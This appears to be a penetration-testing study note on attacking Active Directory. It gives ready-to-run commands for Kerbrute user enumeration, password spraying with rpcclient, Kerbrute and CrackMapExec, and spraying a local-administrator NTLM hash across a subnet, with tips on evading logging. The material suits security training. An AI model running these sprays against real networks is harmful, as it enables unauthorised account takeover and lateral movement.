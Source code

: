 ### Kerbrute 

If we don't have access we can use **Kerbrute** to enumerate valid AD users. Kerberos Pre-Authentication is faster and stealthier than the others methods. This doesn't generate Windows events or logon failure. The tool send TGT to the domain controller, if the KDC responds with `PRINCIPAL UNKNOWN` the user is invalid. We can use the userlist [jsmith.txt](https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/jsmith.txt). The wordlist [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) is a good source for Kerbrute.
```console
zero@pio$ kerbrute userenum -d <DOMAIN> --dc <IP> jsmith-txt
```

We will check over 48,000 usernames in 12 seconds. If *Kerberos event logging* is enabled in Group Policy, this will generate event ID 4768.

### Credentialed Enumeration

With credentials we can enumerate with any of the previous tools:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <VALID USER> -p <VALID PASSWORD> --users
```

## From Linux 

With a userlist, now we can start the password spraying. **rpcclient** can be useful for performing the attack from Linux. Take in mind that a valid login is not immediately response **Authority Name**
. We can filter out by grepping for **Authority**:
```bash
for u in $(cat <USERLIST>);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <IP> | grep Authority; done
```

We can also use **Kerbrute**:
```console
zero@pio$ kerbrute passwordspray -d <DOMAIN> --dc <IP> <USERLIST> <PASSWORD>
```

With **CrackMapExec**, we must `grep +` to only show valid users:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <USERLIST> -p <PASSWORD> | grep +
```

After getting a valid credentials, we can try it:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <USER> -p <PASSWORD>
```

This is not only possible with domain user accounts. If we obtain administrative access and the password (NTLM or cleartext), is common to see password reuse of administrative accounts. CrackMapExec will help us with this attack. Take in mind that if we find a password like **$desktop%@admin123**, it is possible to exist the password **$server%@admin123**.

If we only has the NTLM hash for the local administrator, we can spray it across the subnet. The following command will try to login as local administrator. The `--local-auth` will log in one time in each machine (to not block administrative account for the domain):
```console
zero@pio$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H <HASH> | grep +
```
